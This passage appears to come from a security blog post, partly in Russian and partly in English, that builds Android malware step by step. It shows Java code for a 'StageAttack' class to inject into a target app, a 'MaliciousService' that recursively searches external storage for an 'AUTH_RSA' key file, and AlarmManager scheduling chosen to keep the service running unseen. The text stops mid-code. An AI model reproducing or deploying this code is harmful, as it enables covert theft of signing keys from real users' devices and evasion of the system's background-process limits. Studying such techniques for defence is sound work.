 StageAttack - состоит из одного статического метода, который начинает нашу атаку. Мы специально создаем переходный статический метод, для удобства внедрения в готовый класс.

```StageAttack``` - consists of one static method that starts our attack. Static property will help us to easily inject itself to the target class.

{% highlight java %}
public class StageAttack {

	public static void pwn(Context ctx) {
		Intent intent = new Intent(ctx,  MaliciousService.class);
		ctx.startService(intent);
	}
}

{% endhighlight %}

```MaliciousService``` - is a service that recursively searches all external storage.

{% highlight java %}
private String pwn2(File dir) {

String path = null;
File[] list = dir.listFiles();

for (File f : list) {

    if (f.isDirectory()) {
	path = pwn2(f);
	if (path != null)
	    return path;
    } else {
	path = f.getAbsolutePath();
	if (path.contains("AUTH_RSA")) {
	    Log.d(TAG, "AUTH_RSA found here - " + path);
	    return path;
	}
    }
}
return null;
}
{% endhighlight %}

If the digital signature is not found, we will repeat the search every 5 seconds until we find it. You can use any interval. If we taking too small an interval, our service runs the risk of being stopped by the system. The higher the version of android, the more severe the policy regarding the operation of background processes. We also cannot use Foreground service, because it is constantly visible to everyone. Not being an android developer, I spent a lot of time to find a way to schedule a task that will be completed on the exact time. It is not as simple as it seems. There are several recommended methods in Android (JobService, WorkManager, setRepeating()). The documentation does not explicitly indicate that the interval of the task should be at least 15 minutes and its execution time depends on the desire of the system. This does not suit us, so we use the ```AlarmManager``` class with the ```setExactAndAllowWhileIdle()``` method. When the task is completed, we schedule it again, with the same interval. This is the only method currently known to me that has the highest accuracy.

{% highlight java %}
private void scheduleMalService() {

	Context ctx = getApplicationContext();
	AlarmManager alarmMgr = (AlarmManager) ctx.getSystemService(Context.ALARM_SERVICE);
	Intent intent = new Intent(ctx, MaliciousTaskManager.class);

	final int _id = (int) System.currentTimeMillis();
	PendingIntent alarmIntent = PendingIntent.getBroadcast(ctx, _id, intent, 0);

```
